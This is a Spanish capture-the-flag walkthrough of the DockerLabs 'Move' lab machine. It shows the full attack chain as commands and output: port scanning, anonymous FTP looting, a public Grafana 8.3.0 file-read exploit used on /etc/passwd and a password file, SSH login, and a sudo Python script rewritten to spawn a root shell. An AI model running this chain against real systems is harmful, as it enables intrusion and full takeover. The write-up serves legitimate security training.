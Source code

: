 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Move".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh move.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene abiertos 4 puertos:
```
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 3000/tcp on 172.17.0.2
```
Probamos primero el puerto 80, por lo que pondremos en el navegador la IP, pero nos aparece una simple pagina de Apache.
Hora del puerto 21 (FTP), como nos permite entrar como el usuario "anonymous", tal y como se ve aqui abajo, probaremos suerte:
```
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
Entramos y vemos que hay un directorio llamado "mantenimiento", dentro del cual, hay un archivo llamado "database.kdbx", el cual nos descargaremos:
```
ftp> ls
229 Entering Extended Passive Mode (|||33603|)
150 Here comes the directory listing.
drwxrwxrwx    1 0        0            4096 Mar 29 09:28 mantenimiento

ftp> cd mantenimiento
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||35291|)
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0            2021 Mar 29 09:26 database.kdbx
226 Directory send OK.

ftp> get database.kdbx
local: database.kdbx remote: database.kdbx
229 Entering Extended Passive Mode (|||13729|)
150 Opening BINARY mode data connection for database.kdbx (2021 bytes).
100% |************************************************************|  2021       10.64 MiB/s    00:00 ETA
226 Transfer complete.
2021 bytes received in 00:00 (3.66 MiB/s)
```
Este archivo llamado "database.kdbx", es una BBDD con contraseña KeePass, por lo que vamos a intentar obtener obtener el hash con "keepass2john":
```
keepass2john database.kdbx > hashDatabase
```
Desgraciadamente, no es posible y nos tira un error, tal y como se ve a continuacion:
```
! database.kdbx : File version '40000' is currently not supported!
```
Viendo que es un camino sin salida, y como por el puerto 22 (SSH), no podemos entrar, vamos a ver si se puede hacer algo con el puerto 3000.
Para ello, en el navegador ponemos la IP de la maquina y el puerto:
```
172.17.0.2:3000
```
Y vemos que aparece un panel de Login con el software "Grafana". Tambien podemos ver que es la version 8.3.0, lo que nos podria servir para buscar vulnerabilidades con "searchsploit" mas tarde. Ahora, no obstante, haremos un poco de FUZZING WEB para ver que encontramos:
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
Una vez finalizado "gobuster", encontramos lo siguiente:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/.html                (Status: 403) [Size: 275]
/maintenance.html     (Status: 200) [Size: 63]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 830572 / 830576 (100.00%)
===============================================================
Finished
===============================================================
```
Por lo que se ve, todas parecen "normales" excepto la de "maintenance.html", asi que probaremos a ponerla en el navegador y curiosamente vemos el mensaje:
```
 Website under maintenance, access is in /tmp/pass.txt
```
Bien, interesante... parece que la contraseña esta en el archivo "/tmp/pass.txt", pero como no podemos acceder aun, vamos a tirar de "searchsploit" tal y como se ve a continuacion:
```
searchsploit grafana 8.3.0

--------------
Exploit Title
--------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read 

--------------
Path
--------------
multiple/webapps/50581.py

```
Tal y como se puede observar, existe para la version 8.3.0 un exploit en python llamado "50581.py", por lo que vamos a intentar localizarlo mediante el comando "locate", y recibimos el siguiente mensaje:
```
locate 50581.py

/usr/share/exploitdb/exploits/multiple/webapps/50581.py
```
Vale, es hora de hacerse una copia de este exploit a nuestro directorio de trabajo con el comando:
```
cp /usr/share/exploitdb/exploits/multiple/webapps/50581.py moveSploit.py
```
A continuacion,  ejecutamos el exploit:
```
python3 moveSploit.py -H https://172.17.0.2:3000

	-H = Hay que poner la ruta completa (incluido puerto) del host
```
Una vez hecho, nos sale un pequeño "prompt" que nos pedira un archivo a leer:
```
Read file > /tmp/pass.txt

t9sH76gpQ82UFeZ3GXZS
```
Como se observa, hemos utilizado el archivo "/tmp/pass.txt" porque es el que nos ponia en la pagina Web de "mantenimiento.html"
Vamos a probar ahora algo mas "dificil", que seria acceder al archivo "/etc/passwd" a ver si suena la flauta:
```
Read file > /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash
```
Si nos fijamos justo en la ultima linea, hay un usuario llamado "freddy" por lo que vamos a probar con este usuario y la contraseña obtenida antes, a ver si podemos acceder al puerto SSH (22):
```
ssh freddy@172.17.0.2
```
Tras contestar "yes" a las fingerprints, y poner la contraseña, vemos que estamos dentro :) !!
```
┌──(freddy㉿d7db4525ef5a)-[~]
└─$ whoami                                                                  
freddy
```
Sin embargo, lo suyo es intentar la escalada de privilegios, por lo que probaremos con el tipico comando "sudo -l" y obtenemos:
```
sudo -l

Matching Defaults entries for freddy on d7db4525ef5a:
    env_reset, mail_badpass,    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User freddy may run the following commands on d7db4525ef5a:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```
Tal y como vemos, podriamos ejecutar el archivo "/opt/maintenance.py". Ademas, python tambien seria posible, asi que vamos a buscar en "gtfobins", o con "searchbins", como se haria la escalada con python:
```
searchbins -b python -f sudo 

[+] Binary: python

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/python/#sudo]

    | sudo python -c 'import os; os.system("/bin/sh")'
```
Viendo esto, simplemente tendriamos que cambiar el contenido del archivo "/opt/maintenance.py" y meter:
```
┌──(freddy㉿d7db4525ef5a)-[~]
└─$ nano /opt/maintenance.py

import os;
os.system("/bin/sh")
```
Ahora solo nos quedaria guardar y ejecutar:
```
┌──(freddy㉿d7db4525ef5a)-[~]
└─$ sudo /usr/bin/python3 /opt/maintenance.py

# whoami
root
#
```
Como se puede ver, ya somos "root". Es momento de obtener un prompt mas "bonito" con el comando "bash -p":
```
# bash -p

┌──(root㉿d7db4525ef5a)-[/home/freddy]
└─# whoami
root

┌──(root㉿d7db4525ef5a)-[/home/freddy]
└─# 
```
Finalmente, tenemos un prompt "root" normal. Y hecho esto ya estaria la maquina acabada.
